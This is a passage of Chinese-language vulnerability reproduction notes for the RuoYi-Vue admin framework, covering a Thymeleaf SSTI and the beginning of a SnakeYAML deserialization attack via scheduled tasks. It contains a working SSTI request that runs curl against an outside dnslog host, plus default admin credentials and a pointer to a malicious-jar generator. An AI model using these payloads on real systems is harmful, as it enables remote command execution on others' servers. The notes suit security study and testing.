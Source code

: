   ![image-20230621190329600](../../../images/image-20230621190329600.png)

  剩下步骤

  修改配置文件`RuoYi-Vue/ruoyi-admin/src/main/resources/logback.xml`中的数据库账号和密码

  [RuoYi搭建开发环境 - 掘金](https://juejin.cn/post/7081625556705345573)



## Thymeleaf SSTI

本质上还是SPEL表达式注入[Thymeleaf SSTI漏洞分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10514#toc-9)

### 复现

```http
POST /monitor/cache/getNames HTTP/1.1

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('curl%20cn0165.dnslog.cn')}__::.x
```

![image-20230825151844044](../../../images/image-20230825151844044.png)

![image-20230825151819003](../../../images/image-20230825151819003.png)

### 绕过姿势

[记一次实战之若依SSTI注入绕过玄某盾 - 先知社区](https://xz.aliyun.com/t/11509#toc-3)



## 后台定时任务--YAML反序列化

[Java安全之SnakeYaml反序列化分析 - nice_0e3 - 博客园 (cnblogs.com)](https://www.cnblogs.com/nice0e3/p/14514882.html)

### 复现

默认密码为admin/admin123

进入后台系统监控下的定时任务功能，可以发现调用目标字符串的字段。

![image-20230621192434476](../../../images/image-20230621192434476.png)



#### 生成yaml恶意jar包

https://github.com/artsploit/yaml-payload

修改项目源码文件 src/artsploit/AwesomeScriptEngineFactory.java 

![image-20230621210916844](../../../images/image-20230621210916844.png)

在idea中打开终端
